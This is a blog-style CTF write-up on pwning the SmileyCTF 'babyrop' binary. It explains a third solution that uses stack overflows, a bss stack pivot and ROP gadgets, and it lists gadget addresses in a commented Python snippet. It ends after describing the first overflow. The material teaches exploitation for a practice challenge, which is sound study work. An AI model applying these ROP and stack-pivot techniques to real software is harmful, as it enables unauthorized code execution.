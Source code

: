 +++
title="SmileyCTF babyrop Writeup 3"
date="2025-07-24"
categories=["CTF", "Writeup"]
tags=["smileyctf", "pwn", "rop", "return-oriented-programming", "linux-binary-exploitation", "binary-exploitation", "stack-based-buffer-overflow", "python", "c", "pwntools", "gef", "libc-leak"]
description="Reverse engineering and pwning the SmileyCTF Babyrop challenge binary. Includes LIBC leak and Return-Oriented Programming"
image="/images/SmileyCTF/SmileyCTF-Babyrop-2/smileyCTF_pic.png"
[extra]
cover.image="/images/SmileyCTF/SmileyCTF-Babyrop-2/smileyCTF_pic.png"
cover.alt="Reverse engineering and pwning the SmileyCTF Babyrop challenge binary. Includes LIBC leak and Return-Oriented Programming"
image="/images/SmileyCTF/SmileyCTF-Babyrop-2/smileyCTF_pic.png"
+++

This is the **third solution** for the SmileyCTF-babyrop challenge, and it's the most satisfying one for me. I like to call it "**playing with memory like a master**."

### Quick recap

The PoC owner creates two carefully crafted chunks for this exploit. The first chunk is called the **Chunk Execution Workflow (CEW) chunk**, and the second is the **Chunk Execution Manager (CEM) chunk**.

I appreciate this PoC because it's **clean, clear, and robust**. The PoC overflows the buffer three times, allowing for significant manipulation of the execution flow. This is what makes it particularly special to me.

### The gadgets

I added some comments to code, hope it would help you to understand.

```python
offset      = 0x20        # rbp overwrite offset
bss         = 0x404800    # bss address the CEW chunk

gets_gadget = 0x401205    # 0x401205 <+54>:    lea    rax,[rbp-0x20]
print_gadget = 0x401211    # 0x401211 <+66>:    mov    rdx,QWORD PTR [rip+0x2df8]        # 0x404010 <print>

leave_ret   = 0x401226    # 0x401226 <+87>:    leave; ret
pop_rbp     = 0x401181    # 0x401181 <gadgets+11>:       pop    rbp; ret
pop_rcx     = 0x40117e    # 0x40117e <gadgets+8>:        pop    rcx
add_bl_dh   = 0x4010bf    # 
ret         = pop_rbp + 1 # ret;
```


### 1st Overflow

The first overflow is the classic one, preparing `rbp` at `bss-0x10` and injecting the CEW payload. This gains control of `RIP`, directing execution to `gets_gadgets`.
